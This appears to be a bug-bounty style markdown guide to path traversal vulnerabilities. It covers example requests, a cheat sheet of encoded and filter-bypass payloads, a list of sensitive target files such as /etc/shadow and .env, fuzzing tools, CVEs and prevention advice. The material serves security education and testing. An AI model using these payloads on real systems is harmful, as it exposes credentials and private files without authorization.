 # Directory Traversal / Path Traversal Vulnerability

## Overview
Directory traversal, also known as path traversal, is a security vulnerability that allows an attacker to access files and directories stored outside the intended web root folder. Exploiting this flaw may lead to unauthorized access to sensitive files, configuration files, or even system-level resources.

## How It Works
This vulnerability arises when user-supplied input is not properly sanitized before being used in file system operations. By injecting special characters like `../` (dot-dot-slash), attackers can manipulate file paths to traverse up the directory structure and access restricted files.

### Example Request
```
GET /files/../../../etc/passwd HTTP/1.1
Host: vulnerable-website.com
```
### Example URL
```bash
https://target.com/image?file=../../../../etc/passwd
``` 

## 🔐 Payload Cheat Sheet

### Basic Traversals
- `../` — Unix-style path traversal
- `..\\` — Windows-style path traversal
- `../../etc/passwd` — Multi-level traversal
- `..%2F` — URL-encoded `../`
- `..%5C` — URL-encoded `..\\`

### Obfuscated / Filter Bypass Payloads
- `..%252f` — Double-encoded `../`
- `....//....//` — Trick filters into allowing traversal
- `....\\\\....\\\\` — Windows obfuscation
- `%2e%2e%2f` — Encoded `../`
- `%2e%2e/` — Alternative encoding
- `..%c0%af` — Unicode-encoded slash
- `../../../etc/passwd%00.png` — Null byte injection to bypass file extensions

## 🗂 Common Target Files
- `/etc/passwd` — Linux user accounts
- `/etc/shadow` — Linux password hashes
- `/proc/self/environ` — Environment variables
- `.env` — Environment configuration (contains secrets)
- `WEB-INF/web.xml` — Java web app config
- `C:\Windows\win.ini` — Windows system config

## 💥 Impact
- Disclosure of sensitive configuration files
- Leakage of credentials or API keys
- Access to application source code
- Information leakage about server or environment
- Possibility of remote code execution (via chained exploits)

## 🛠 Tools for Testing

### Dedicated Tools
- [dotdotpwn](https://github.com/wireghoul/dotdotpwn) - Automated directory traversal tool  

### Common Tools
- [Ffuf](https://github.com/ffuf/ffuf) - Fuzz faster U Fool
- [Burp Suite](https://portswigger.net/burp) - Web vulnerability scanner
- [OWASP ZAP](https://www.zaproxy.org/) - Open-source web application security scanner
- [DirBuster](https://www.owasp.org/index.php/Category:DirBuster) - Directory brute-forcing tool
- [Nikto](https://cirt.net/Nikto2) - Web server scanner

### Ffuf Example
```bash
ffuf -u https://vulnerable-website.com/image?filename=FUZZ -w /path/to/wordlist.txt -fs 1234 -fc 403
``` 

## Articles
- [Practical Guide Path Traversal Attacks](https://www.yeswehack.com/learn-bug-bounty/practical-guide-path-traversal-attacks)
- [A Guide to Directory Traversal Vulnerability in 2024](https://medium.com/@certcube1/a-guide-to-directory-traversal-vulnerability-in-2024-50c5fafd0796)


## 📚 Practice & Learning Resources
- [PortSwigger - Directory Traversal](https://portswigger.net/web-security/file-path-traversal)
- [OWASP - Directory Traversal](https://owasp.org/www-community/attacks/Path_Traversal)
- [Acunetix - Directory Traversal](https://www.acunetix.com/websitesecurity/directory-traversal/)

## 🧨 CVE Examples
- [CVE-2017-5638](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5638) - Apache Struts
- [CVE-2021-22986](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22986) - F5 BIG-IP
- [CVE-2020-1938](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-1938) - Apache Tomcat (Ghostcat)
- [CVE-2020-36289](https://nvd.nist.gov/vuln/detail/CVE-2020-36289) - OpenAsset traversal with `....//....//`

## 🛡️ Prevention

1. **Sanitize and Validate Input**  
   - Reject dangerous characters and patterns like `../`, `%00`, or encoded traversal sequences.  
   - Use allow-lists for filenames and extensions.

2. **Use Secure File APIs**  
   - Normalize file paths using secure functions (e.g., `realpath()` in PHP or Python).

3. **Enforce Access Controls**  
   - Restrict file access using file system permissions and sandboxing techniques.

4. **Monitor and Log Access**  
   - Log all file access attempts and monitor for repeated suspicious behavior.

5. **Perform Regular Audits**  
   - Conduct regular penetration testing, source code reviews, and use static analysis tools.

---

## 🎯 Happy Hunting! 👾
